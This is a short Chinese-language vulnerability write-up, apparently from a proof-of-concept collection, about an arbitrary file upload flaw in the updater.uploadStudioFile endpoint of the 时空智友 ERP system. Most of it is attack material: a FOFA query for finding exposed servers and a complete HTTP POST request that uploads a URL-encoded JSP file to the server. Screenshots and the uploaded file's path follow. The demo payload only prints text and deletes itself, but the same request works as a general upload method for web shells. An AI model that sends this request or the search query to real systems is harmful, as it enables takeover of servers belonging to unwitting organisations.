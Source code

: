 ## 时空智友ERP系统updater.uploadStudioFile接口处存在任意文件上传漏洞

时空智友ERP updater.uploadStudioFile接口处存在任意文件上传漏洞，恶意攻击者可以上传恶意软件，例如后门、木马或勒索软件，以获取对服务器的远程访问权限或者破坏系统，对服务器造成极大的安全隐患。

## fofa

```
body="login.jsp?login=null"
```

## poc

```
POST /formservice?service=updater.uploadStudioFile HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 1098
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Connection: close

content=<?xml%20version="1.0"?><root><filename>ceshi.jsp</filename><filepath>./</filepath><filesize>172</filesize><lmtime>1970-01-01%2008:00:00</lmtime></root><!--%3c%25%20%6f%75%74%2e%70%72%69%6e%74%6c%6e%28%22%48%65%6c%6c%6f%20%57%6f%72%6c%64%21%22%29%3b%6e%65%77%20%6a%61%76%61%2e%69%6f%2e%46%69%6c%65%28%61%70%70%6c%69%63%61%74%69%6f%6e%2e%67%65%74%52%65%61%6c%50%61%74%68%28%72%65%71%75%65%73%74%2e%67%65%74%53%65%72%76%6c%65%74%50%61%74%68%28%29%29%29%2e%64%65%6c%65%74%65%28%29%3b%20%25%3e-->
```

![image-20240626214852120](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406262148311.png)

文件路径`http://127.0.0.1/update/temp/studio/ceshi.jsp`

![image-20240626215002638](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406262150767.png)